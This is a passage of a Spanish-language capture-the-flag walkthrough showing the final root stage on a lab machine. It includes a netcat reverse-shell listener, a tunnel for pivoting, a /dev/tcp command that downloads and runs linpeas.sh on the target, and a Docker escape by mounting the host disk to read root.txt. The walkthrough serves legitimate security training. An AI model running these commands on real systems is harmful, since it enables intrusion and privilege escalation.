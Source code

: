 ```
clean

sent 199 bytes  received 41 bytes  480.00 bytes/sec
total size is 108  speedup is 0.45
```
### Backup Root
```
➜  hack nc -nlvp 4545
listening on [any] 4545 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 44238
bash: cannot set terminal process group (887): Inappropriate ioctl for device
bash: no job control in this shell
```
Hacemos otro tunel para pasarle el `linpeas.sh`
```
[Agent : root@www] » listener_add --addr 0.0.0.0:4546 --to 127.0.0.1:4546

➜  /opt nc -nlvp 4546 < linpeas.sh
listening on [any] 4546 ...

root@backup:/tmp# cat < /dev/tcp/172.20.0.3/4546 > lin.sh
root@backup:/tmp# chmod +x lin.sh
root@backup:/tmp# ./lin.sh
```
Como ya somos root busque archivos en vez de maneras de escalar y me encontre con estas monturas en linpeas.sh
```
╔══════════╣ Interesting Files Mounted
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/Sid,nodev,noexec,relatime,freezer)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
/dev/sda2 on /backup type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/sda2 on /etc/resolv.conf type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/sda2 on /etc/hostname type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/sda2 on /etc/hosts type ext4 (rw,relatime,errors=remount-ro,data=ordered)
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
cgroup on /tmp/cgroup_3628d4 type cgroup (rw,relatime,memory)
```
Cree todas las monturas que me dejara, la unica que era interesante fue esta
```
root@backup:/mnt# mkdir sda2
root@backup:/mnt# mount /dev/sda2 sda2
root@backup:/mnt# cd sda2
root@backup:/mnt/sda2# ls
bin   home            lib64       opt   sbin  tmp      vmlinuz.old
boot  initrd.img      lost+found  proc  snap  usr
dev   initrd.img.old  media       root  srv   var
etc   lib             mnt         run   sys   vmlinuz
root@backup:/mnt/sda2#
```
Al entrar a /root/ encontramos la root.txt
```
root@backup:/mnt/sda2/root# cat root.txt
d8be00d43b29e<REDACTED>8d9b6b0d0a
```











